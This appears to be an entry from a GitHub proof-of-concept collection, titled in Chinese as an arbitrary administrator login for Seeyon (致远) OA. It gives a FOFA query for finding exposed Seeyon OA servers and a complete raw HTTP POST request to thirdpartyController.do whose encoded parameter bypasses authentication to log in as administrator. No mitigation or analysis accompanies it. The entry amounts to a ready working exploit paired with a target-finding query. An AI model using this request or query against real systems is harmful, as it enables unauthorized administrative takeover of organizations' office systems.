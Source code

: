 ## 致远OA任意管理员登录

## fofa
```
app="致远互联-OA"
```

## poc
```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: loginPageURL="/main.do";
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

```
![image](https://github.com/wy876/POC/assets/139549762/01307e49-863e-4cef-a9cb-0e1258902485)
